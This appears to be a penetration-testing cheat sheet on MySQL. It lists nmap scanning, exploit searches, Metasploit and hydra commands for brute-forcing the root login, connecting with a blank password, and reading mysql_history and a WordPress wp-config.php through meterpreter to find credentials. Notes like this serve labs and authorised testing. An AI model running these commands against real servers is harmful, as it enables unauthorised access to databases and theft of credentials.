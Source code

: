 # MySQL
- MySQL is an open-source relational database management system (RDBMS).

- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>
```
```
search MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login.
  - Focus on root.
  - root password can be NULL.
  - hydra does not attempt NULL password?
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```

- Brute-forcing can result in host being blocked.
  - Need shell on target and MySQL account to run `mysqladmin flush-hosts`.
  - Avoid brute-forcing MySQL? Test for NULL credentials manually.
```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL remotely.
  - Press Enter for password if NULL.
```
mysql -u root -p -h <ip>
```

- Basic SQL commands.
```
show databases;
use <database>;
show tables;
select * from <table>;
```

- Check users' mysql history file for credentials and other information.
```
cat ~/.mysql_history
```

- Check Web app config file for MySQL root password e.g. WordPress (WAMP).
  - Requires admin privileges.
```
meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');
```
